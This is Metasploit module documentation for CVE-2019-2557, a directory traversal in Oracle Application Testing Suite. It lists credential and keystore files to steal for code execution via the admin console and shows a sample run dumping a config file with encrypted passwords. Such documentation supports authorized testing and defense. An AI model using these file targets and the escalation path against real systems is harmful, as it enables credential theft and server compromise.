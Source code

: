 ## Description

Oracle Application Testing Suite (OATS) is a comprehensive, integrated testing solution for web applications, web services, packaged Oracle applications, and Oracle databases. OATS is part of an application deployed in the WebLogic service on port 8088, which also includes these tools: Administrator, OpenScript, Oracle Load Testing, and Oracle Test Manager.

In the Load Testing component, a vulnerability was discovered by Steven Seeley (@mr_me) of Source Incite in the DownloadServlet class. According to the Source Incite advisory, the issue results from the lack of proper validation of a user-supplied string before using it to read a file. An attacker can leverage this vulnerability to execute code in the context of SYSTEM. Note that authentication is required.

This vulnerability is also known as CVE-2019-2557.


## Vulnerable Application

The following is the exact setup I used to test and analyze the vulnerability:

- Windows Server 2008 R2 x64 (other Windows systems are also supported)
  - .Net Framework 3.5 enabled (from add/remove features)
  - IE ESC (from Server Manager) disabled
  - 8GB of RAM (at least more than 4GB will be used to run OATS)
  - Duel-Core processor
- oats-win64-full-13.3.0.1.262.zip (x86 did not work for me)
- Jdk-7u21-windows-x64.exe
- OracleXE112_Win64.zip (Newer version 18c did not work well for me)
- Firefox (I had to install this because IE on Win2k8 is completely outdated)
- Adobe Flash installed (IE ESC needs to be disabled in order to install this)

For installation instructions, please refer to the Oracle Application Testing Suite Installation Guide.

## Notes

By default, your starting traversal path is:

```
C:\OracleATS\config\Report Templates\
```

There are some interesting files you can steal from this directory, such as:

* oats-config.xml
* oats-database-config.xml
* oats-keystore

Code execution is possible leveraging from this vulnerability if you target these files:

* C:\OracleATS\oats\servers\AdminServer\security\SerializedSystemIni.dat
* C:\OracleATS\oats\servers\AdminServer\security\boot.properties

After that, you can find a third party script to decrypt the credentials, and then you could
gain code execution from the administrator console.


## Credit

Special thanks to Steven Seeley to assist on the development of the Metasploit module.

## Scenarios

```
msf auxiliary(gather/oats_downloadservlet_traversal) > run
[*] Running module against 172.16.249.143

<?xml version="1.0" encoding="UTF-8" standalone="no"?>
<!DOCTYPE properties SYSTEM "http://java.sun.com/dtd/properties.dtd">
<properties>
<entry key="oracle.oats.cluster.agent.username">oats-agent</entry>
<entry key="oracle.oats.security.keystore.info">eYAdfLaDkdBlUmflYhpg+CHGeXc=</entry>
<entry key="oracle.oats.cluster.username">oats</entry>
<entry key="oracle.oats.cluster.agent.password">{AES}WNdIPXpoeoZzyDNuJPm0wU4R3YKc1SUR2k5+TbQfzIQ=</entry>
<entry key="oracle.oats.admin.username">oats</entry>
<entry key="oracle.oats.http.url">http://localhost:8088</entry>
<entry key="oracle.oats.config.version">9.1.0</entry>
<entry key="oracle.oats.admin.password">{AES}NHrwlbPc7Arlb7puj+UlzAAXB/dUEbv3bdwNnee1/sc=</entry>
<entry key="oracle.oats.cluster.password">{AES}WMTjMmLChdB9CTSrnyJ33113u0ml0juuGZQCWPODJTk=</entry>
<entry key="oracle.oats.admin.url">t3://localhost:8088</entry>
<entry key="oracle.oats.tmp.dir">/tmp</entry>
<entry key="oracle.oats.cluster.url">t3://localhost:8088</entry>
</properties>

[*] Auxiliary module execution completed
msf auxiliary(gather/oats_downloadservlet_traversal) > 
```
